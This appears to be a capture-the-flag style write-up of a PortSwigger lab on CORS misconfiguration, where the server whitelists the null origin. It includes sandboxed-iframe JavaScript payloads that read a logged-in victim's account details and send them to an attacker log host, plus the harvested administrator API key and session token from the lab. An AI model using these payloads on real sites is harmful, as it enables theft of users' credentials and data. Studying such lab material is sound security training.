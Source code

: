 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a65e4041-81be-4d5e-b670-1a23b684cbae)


## Overview :

## Errors parsing Origin headers -

 For example, suppose an application **grants access to all domains ending in**

```
normal-website.com
```

Then an attacker might be able to gain access by registering the domain:

```
hackersnormal-website.com
```

Alternatively, suppose an application **grants access to all domains beginning with**

```
normal-website.com
```

An attacker might be able to gain access using the domain:

```
normal-website.com.evil-user.net
```
## Whitelisted null origin value -

The specification for the Origin header supports the value `null`. Browsers might send the value null in the `Origin` header in various unusual situations:


Some applications might **whitelist the null origin to support local development of the application**. For example, suppose an application receives the following cross-origin request:

```http
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

And the server responds with:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```  

## Solution :

Login to the website using credentials - `wiener:peter`.

Once logged in, we can see the API key of wiener.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7a08004a-0739-46b8-816e-4f9971683a30)

### Analysis -

The GET request to `/accountDetails` contains `Access-Control-Allow-Credentials` in the response.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d484581-64ed-45ee-9382-a2b5b9a0520c)

> Note that there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give `Origin: evil.com` in request, we can see that in the response it does not contain any `Access-Control-Allow-Origin: evil.com` header. Which means evil.com is not in the whitelisted domains.

What happens if we try to give  `Origin: null` in request?

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6fbf4a8c-4bef-4e40-bb45-7c8c7c888184)

This time we have the `Access-Control-Allow-Origin: null` header in the response. This means **null is in the whitelisted domains.**

> Some applications might whitelist the **null origin to support local development of the application**.

So by this we can bypass CORS & retreive the API key of administrator.

### Embedding  script in iframe -

Scripts that originate from an iframe usually contains `Origin: null`.

So we need to embed our exploit script inside an iframe.

**Script -**

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','0a5000b3043375d0842d91cd0199006b.exploit-server.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-0a5000b3043375d0842d91cd0199006b.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
After clicking `Deliver exploit to victim`open the `Access.log`. There we can find the API key of the administrator.

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "wP4InQrrPWqaqAGPQM8bZVbTH1p0JeVe",
  "sessions": [
    "3V9Od14F6X5ATsCIYK2N6bGJq3VDEEFg"
  ]
}
```


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4dab72c-42d3-40ce-a793-98c5bd64ce8d)

Submit the API key of administrator to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6751ba34-111b-4956-acfe-bd50fd3a76ae)
